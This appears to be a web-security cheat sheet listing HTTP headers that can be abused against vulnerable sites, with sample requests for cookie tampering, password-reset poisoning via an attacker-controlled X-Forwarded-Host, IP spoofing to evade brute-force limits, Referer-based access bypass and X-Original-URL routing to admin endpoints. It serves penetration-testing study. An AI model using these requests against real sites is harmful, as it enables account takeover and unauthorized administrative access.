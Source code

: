 # Useful HTTP Headers for Exploitation

---

## 1. Cookie

**Description:**
Stores session data, user roles, persistent login tokens, and other sensitive information. Manipulating cookies can lead to session hijacking, privilege escalation, or bypassing authentication.

**Example Request:**

```http
GET /my-account HTTP/1.1
Host: vulnerable-website.com
Cookie: session=abc123; stay-logged-in=carlos:md5hash
```

**Scenario:**

- Change `admin=false` to `admin=true` in a cookie to gain admin access.
- Brute-force or steal `stay-logged-in` cookies to hijack accounts.

---

## 2. X-Forwarded-Host

**Description:**
Indicates the original host requested by the client. Some middleware trusts this header to generate password reset links, making it vulnerable to poisoning.

**Example Request:**

```http
POST /forgot-password HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: attacker.com
```

**Scenario:**

- Poison password reset emails by setting `X-Forwarded-Host` to a domain you control, allowing you to intercept reset tokens.

---

## 3. X-Forwarded-For

**Description:**
Used to identify the originating IP address of a client connecting through a proxy. Can be manipulated to bypass IP-based rate limiting or brute-force protections.

**Example Request:**

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.2.3.4
```

**Scenario:**

- Spoof your IP address to avoid being blocked during brute-force attacks.

---

## 4. Referer

**Description:**
Indicates the URL of the page making the request. Some applications use it for access control, which is insecure as it can be easily manipulated.

**Example Request:**

```http
POST /admin-roles HTTP/1.1
Host: vulnerable-website.com
Referer: https://vulnerable-website.com/admin
Cookie: session=abc123
```

**Scenario:**

- Set the `Referer` header to the admin page URL to perform admin actions as a regular user.

---

## 5. X-Original-URL / X-Rewrite-URL

**Description:**
Non-standard headers used by some backend frameworks to override the request URL. Can be exploited to access restricted endpoints.

**Example Request:**

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Original-URL: /admin/deleteUser
```

**Scenario:**

- Add `X-Original-URL` to access admin-only endpoints without proper authorization.

---
